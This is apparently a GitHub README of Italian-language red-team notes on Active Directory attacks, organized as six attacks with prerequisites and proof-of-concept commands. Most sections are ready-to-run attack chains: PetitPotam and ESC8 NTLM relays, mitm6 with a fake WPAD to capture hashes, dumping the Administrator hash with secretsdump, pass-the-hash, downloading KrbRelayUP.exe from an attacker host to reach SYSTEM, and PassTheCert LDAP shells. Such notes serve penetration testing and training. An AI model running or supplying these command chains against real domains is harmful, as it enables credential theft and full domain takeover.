

# ADTech

Appunti, metodologia di penetration test per il rilevamento di anomalie, elenco di strumenti, script e comandi di Windows che trovo utili durante INPT/AS/RED TEAMING.

## Tabelle contenuti

- [Attacco 1. PetitPotam - NTLMv1 relay attack](#Attacco-1-PetitPotam-NTLMv1-relay-attack-)
- [Attacco 2. Enumerazione AD da non autenticato sfruttando MITM6](#Attacco-2-Enumerazione-AD-da-non-autenticato-sfruttando-MITM6-)
- [Attacco 3. Sfruttamento ESC 8 ADCS](#Attacco-3-Sfruttamento-ESC-8-ADCS-)
- [Attacco 4. Aggiunta nuovo computer in AD con LDAP signing not required and LDAP channel binding disabled](#Attacco-4-Aggiunta-nuovo-computer-in-AD-con-LDAP-signing-not-required-and-LDAP-channel-binding-disabled-)
- [Attacco 5. Local Privilege Escalation KrbRelayUp Kerberos Relay Attack with RBCD method](#Attacco-5-Local-Privilege-Escalation-KrbRelayUp-Kerberos-Relay-Attack-with-RBCD-method-)
- [Attacco 6. Authenticating with certificates when PKINIT is not supported](#Attacco-6-Authenticating-with-certificates-when-PKINIT-is-not-supported-)
----------------
### Attacco 1. PetitPotam - NTLMv1 relay attack 🔐🕸🧑🏼‍💻

#### Prerequisiti

➤ PetitPotam sul Domain Controller (CVE-2021-36942)

➤ Uso di NTLMv1 come protocollo di autenticazione (lo vedi con un Responder ad esempio)

➤ Almeno 2 Domain Controller

#### Proof of Concept

➤ Set-up NTLM relay verso il servizio LDAP su l'altro Domain Controller. Usi remove-mic per rimuovere la protezione e quindi sfruttare la debolezza di NTLMv1.

```
Terminale 1:

python3 ntlmrealyx.py -t ldaps://<DC2 IP> --remove-mic -smb2support --delegate-access
```

➤ Exploit della vulnerabilità PetitPotam, sfruttando il protocollo MS-EFSRPC per fare una chiamata API che triggera il target (DC1) ad autenticarsi alla macchina controllata dall'attaccante. Tale attacco funziona senza avere una utenza di dominio.

```
Terminale 2:

python3 PetitPotam.py -d <domain> <IP Attacker> <DC1 IP>
```

➤ La macchina attaccante riceve NTLM e lo inoltra al secondo DC tramite LDAP. Nello specifico l'attacco porta alla creazione di un nuovo computer macchina ed essa viene inserita nel campo attributo msDS-AllowedToActOnBehalfOfOtherIdentity del Domain Controller con la delega di impersonificare Administrator dentro DC1

➤ Viene forgiato un Silver Ticket per impersonificare un Amministratore dentro DC1. Ti salva il TGS in Administrator.ccache. 
In particolare viene usato sia S4U2Self che S4U2Proxy. In parole povere se puoi fare RCBD con ntlmv1 è possibile per design di Windows richiedere un TGS per spn CIFS sul domain controller vittima, anche se S4U2Proxy è disabilitato perchè puoi richiederlo prima per S4USelf poi fare il forward.  

```
python3 getST.py -spn cifs/<FQDN DC1> -impersonate Administrator <domain>/'<username computer macchina creato>'
```

➤ Forgiato il ticket è possibile accedere a DC1

```
KRB5CCNAME=Administrator.ccache python3 wmiexec.py -k -no-pass @FQDN DC1 
```


-----------------
### Attacco 2. Enumerazione AD da non autenticato sfruttando MITM6 🕵

#### Teoria

➤ Per impostazione predefinita, tutte le versioni di Windows da Windows Vista in poi (incluso le varianti server) hanno IPv6 abilitato e lo preferiscono rispetto a IPv4. 

➤ L'attacco è stato eseguito avvelenando le risposte DHCPv6 alle richieste legittime, assegnando alla vittima un indirizzo IPv6 nell'intervallo link-local e configurando contemporaneamente l'IP dell'attaccante come il server DNS IPv6 predefinito. A causa della preferenza di Windows per i protocolli IP, il server DNS IPv6 sarà preferito rispetto al server DNS IPv4. Un client Windows utilizzerà il server DNS IPv6 malevolo per interrogare sia i record A (IPv4) che AAAA (IPv6), e il suo traffico sarà reindirizzato a un endpoint specificato dall'attaccante. A questo punto, l'attacco è in grado di intercettare gli hash NetNTLMv2 inviati in risposta dai client vittima.
 
➤ Quando la macchina di un utente malintenzionato sta intercettando il traffico IPv6, può intercettare le richieste di autenticazione, intercettare le credenziali NTLM e trasmetterle utilizzando ntlmrelayx a un controller di dominio. Se la richiesta di autenticazione inoltrata era da un amministratore di dominio, l'utente malintenzionato può quindi utilizzare tale credenziali NTLM per creare un account utente per se stessi sul dominio

#### Prerequisiti

➤ Ci deve essere IPV6 attivo.

#### Proof of Concept

```
Terminale 1:

sudo mitm6 -i {Network Interface}
```

➤ Imposteremo ntlmrelayx per inoltrare le richieste a LDAPS su un controller di dominio, inviare al client un file WPAD falso e scaricare automaticamente tutte le informazioni che troviamo in una cartella chiamata "loot" sul sistema locale. In sintesi, l'attacco basato su NTLM Relay con falso WPAD è una strategia completa per intercettare e catturare informazioni sensibili come gli hash NTLM (i client, seguendo il meccanismo di auto-configurazione del proxy tramite WPAD, inizieranno a instradare il loro traffico attraverso il proxy controllato dall'attaccante) e potrebbe anche permettere l'enumerazione di Active Directory attraverso il traffico LDAP. 

```
Terminale 2:

impacket-ntlmrelayx -6 -t ldaps://<DC-IP> -wh fakewpad.adlab.com -l loot
```

-----------------
### Attacco 3. Sfruttamento ESC 8 ADCS 🔓🧑🏼‍💻


#### Prerequisiti

➤ Vulnerabilità PetitPotam sui domain controller (CVE-2021-36942).

➤ Per diventare DA cerca tramite BH template enabled i cui domain controller possono fare Enroll o Autoenroll.

➤ Protocollo HTTP abilitato su AD CS.

➤ Ci devono essere almeno 2 Domain controller. Altrimentiva bene anche un Domain Controller e una CA separata.

#### Proof of concept
```
# On first terminal
ntmlrelayx.py -t http://IP/certsrv/certnsh.asp -smb2support --adcs --template DomainController

# On second terminal
python3 PetitPotam.py -d <domain> -u <user> -p <password> <IP_Attacker> <IP_DomainController>
```

Una volta ottenuto il certificato base64 lo copi e lo inserisci dentro la variabile **pfxdata = base64.b64decode("INSERISCI QUI")** del file **gettgtpkinit.py**, il quale ti genererà un TGT che userai per tirare fuori dal DC hash del **Administrator**.

```
python3 gettgtpkinit.py file.ccache
KRB5CCNAME=file.ccache secretsdump.py -k -no-pass -just-dc-user Administrator @FQDN_DC
```

Infine PTH per accedere al Domain Controller

```
wmiexec.py -hashes :<HASH> domain/Administrator@<IP_DomainController>
```


-----------------
### Attacco 4. Aggiunta nuovo computer in AD con LDAP signing not required and LDAP channel binding disabled 🔓🧑🏼‍💻

### Teoria

**Cos'è il Channel Binding?**

Il channel binding è una tecnica di sicurezza che associa le credenziali di autenticazione a un canale di comunicazione specifico. Questo significa che le credenziali non possono essere utilizzate su un altro canale diverso da quello originale. È un modo per garantire che le credenziali siano utilizzate solo all'interno del contesto della connessione sicura originale.
Esempio Pratico

#### Prerequisiti

➤ LDAP not signing (di default).

➤ LDAP channel binding è disabilitato. (di default).

➤ ms-DS-MachineAccountQuota ha bisogno di essere almeno a 1 (10 by default)

#### Proof of concept

```
# On first terminal
sudo ./Responder.py -I eth0 -wfrd -P -v

# On second terminal
sudo python ./ntlmrelayx.py -t ldaps://IP_DC --add-computer
```

-----------------
### Attacco 5. Local Privilege Escalation KrbRelayUp Kerberos Relay Attack with RBCD method 🔓🧑🏼‍💻

#### Teoria
KrbRelayUp è un wrapper che avvolge alcune delle funzionalità di Rubeus e KrbRelay (insieme ad alcuni altri strumenti) al fine di semplificare l'abuso della seguente primitiva di attacco:

➤ Creazione di un nuovo account macchina (New-MachineAccount con un SPN impostato), nell' attributo msDS-AllowedToActOnBehalfOfOtherIdentity

➤ Coercizione dell'autenticazione dell'account macchina locale (utilizzando KrbRelay)

➤ Relay Kerberos a LDAP (utilizzando KrbRelay)

➤ Aggiunta di privilegi basati su risorse vincolati (RBCD) e ottenimento di un privilegiato Silver Ticket (ST) per la macchina locale (utilizzando Rubeus)

➤ Utilizzo di detto Silver Ticket (ST) per autenticarsi presso il Gestore servizi locali e creare un nuovo servizio come NT/SYSTEM (utilizzando SCMUACBypass)

Essenzialmente, **si tratta di un'elevazione universale dei privilegi locali non correggibile in ambienti di dominio Windows in cui la firma LDAP non è signing (impostazioni predefinite)**.

#### Prerequisiti
➤ LDAP not signing (Impostazione predefinita)

➤ ms-DS-MachineAccountQuota ha bisogno di essere almeno a 1 (10 by default)

#### Proof of Concept

➤ KrbRelayUP coercizzerà (obbligherà) un'autenticazione Kerberos dall'account della macchina locale, la trasmetterà a LDAP (AD) e creerà una primitiva di controllo sulla macchina locale usando un RBCD.
   
```
PS C:\temp> wget -Uri http://192.168.1.30:8080/KrbRelayUP.exe -OutFile KrbRelayUP.exe
PS C:\temp> KrbRelayUP.exe relay -Domain company.work -CreateNewComputerAccount -ComputerName Pentesterhost$ -ComputerPassword Welcome2022
```

➤ KrbRelayUP utilizzerà la primitiva di controllo appropriata per ottenere un ticket di servizio Kerberos e lo userà per creare un nuovo servizio in esecuzione come SYSTEM.

```
PS C:\temp> KrbRelayUp.exe spawn -m rbcd -d company.work -dc DC1.company.work -cn Pentesterhost$ -cp Welcome2022
```

➤ Completato questi passaggi una shell nt authority/system comparirà

-----------------
### Attacco 6. Authenticating with certificates when PKINIT is not supported 🕸🧑🏼‍💻

#### Teoria

PKINIT è un meccanismo di Kerberos che consente di utilizzare i certificati X.509 come metodo di pre-autenticazione. Può essere utilizzato per richiedere un TGT e persino l'hash NT dell'account. 

Di solito, quando una PKI è implementata in un ambiente Active Directory, PKINIT è supportato. Tuttavia, durante la mia valutazione, mi sono imbattuto nel seguente messaggio di errore quando cercavo di utilizzare un certificato del Controller di Dominio (ottenuto in modo malevolo):

```
$ python3 ~/tools/PKINITtools/gettgtpkinit.py -cert-pfx AD2_auth.pfx 'contoso.com/AD2$' AD2.ccache
2022-04-07 12:49:00,854 minikerberos INFO     Caricamento del certificato e della chiave dal file
2022-04-07 12:49:00,958 minikerberos INFO     Richiesta del TGT
Traceback (most recent call last):
  File "/home/yme/tools/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
  File "/home/yme/tools/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
  File "/home/yme/tools/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
  File "/home/yme/venv/PKINITtools/lib/python3.8/site-packages/minikerberos/network/clientsocket.py", line 87, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Code: 16 Reason: KDC has no support for PADATA type (pre-authentication data)
```

**KDC_ERR_PADATA_TYPE_NOSUPP:**

L'accesso tramite smart card è stato tentato e il certificato corretto non può essere trovato. Questo problema può verificarsi perché è stata interrogata l'autorità di certificazione (CA) sbagliata oppure perché non è possibile contattare la CA appropriata per ottenere i certificati del Controller di Dominio o dell'Autenticazione del Controller di Dominio per il controller di dominio.

Può anche succedere quando un controller di dominio non ha installato un certificato per le smart card (modelli Domain Controller o Domain Controller Authentication).

Un certificato può avere diversi Extended Key Usages (EKUs). Se un KDC deve supportare l'accesso tramite smart card, il suo certificato deve avere l'EKU per l'accesso tramite smart card. Un PKINIT che fallisce potrebbe indicare che i KDC mirati non dispongono di certificati con l'EKU necessario.

Se ti trovi in questa situazione, non puoi utilizzare il tuo certificato per ottenere un TGT o un hash NT. Quindi, cosa puoi fare con il tuo certificato?
Azioni Possibili con il Certificato

Verifica dei Certificati e delle CA:
        Controlla che il certificato utilizzato abbia tutti gli EKU necessari, in particolare l'EKU per l'accesso tramite smart card.
        Assicurati che il certificato sia stato emesso dall'autorità di certificazione corretta e che questa sia accessibile e funzionante.

Controllo dei Certificati sui Controller di Dominio:
        Verifica che i controller di dominio abbiano installato i certificati appropriati, in particolare quelli per l'accesso tramite smart card.
        Utilizza strumenti come certutil per esaminare i certificati installati sui controller di dominio.

Utilizzo Alternativo del Certificato:
        Anche se non puoi usare il certificato per ottenere un TGT o un hash NT, potrebbe essere utilizzabile per altre operazioni di autenticazione o crittografia all'interno della rete.
        Puoi utilizzare il certificato per autenticarti ad altre risorse o servizi che accettano certificati X.509.

Richiesta di Certificati Appropriati:
        Se possibile, richiedi un certificato con gli EKU necessari tramite una CA interna che supporti PKINIT e l'accesso tramite smart card.

Tuttavia:

Active Directory consente due modalità per stabilire una connessione protetta SSL/TLS a un DC. 

La prima è **collegandosi a un DC su una porta LDAPS protetta** (porte TCP 636 e 3269 in AD DS, e una porta specifica della configurazione in AD LDS). 

La seconda è **collegandosi a un DC su una porta LDAP normale** (porte TCP 389 o 3268 in AD DS, e una porta specifica della configurazione in AD LDS), e successivamente inviando un'operazione estesa LDAP_SERVER_START_TLS_OID. 

In entrambi i casi, il DC richiederà (ma non richiederà obbligatoriamente) il certificato del client come parte dell'handshake SSL/TLS. Se il client presenta un certificato valido al DC in quel momento, può essere utilizzato dal DC per autenticare (legare) la connessione come le credenziali rappresentate dal certificato.

#### Prerequisiti

➤ Certificato valido ottenuto ad esempio con ESC1

➤ Attivo almeno il meccanismo di autenticazione SCHANNEL

#### Proof of Concept

Sfrutto certipy per ottenere un certificato pfx di un template vulnerabile.

```
python3 certpy.py req -u "user" -p "pass" -target-ip "IPDC" -ca "certificate authrotiy" -template "vulntemplate" -upn "Administrator@.local"
```

Ottengo la key e la crt da pfx. Un file PFX (o PKCS #12) è un formato binario per archiviare un certificato con la sua chiave privata in un unico file.

```
python3 certipy cert -pfx cert.pfx -nokey -out user.crt
python3 certipy cert -pfx cert.pfx -nocert -out user.key
```

Ottengo una shell tramite LDAP usando SCHANNEL come meccanismo di auth:
```
python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip "IPDC" "
```

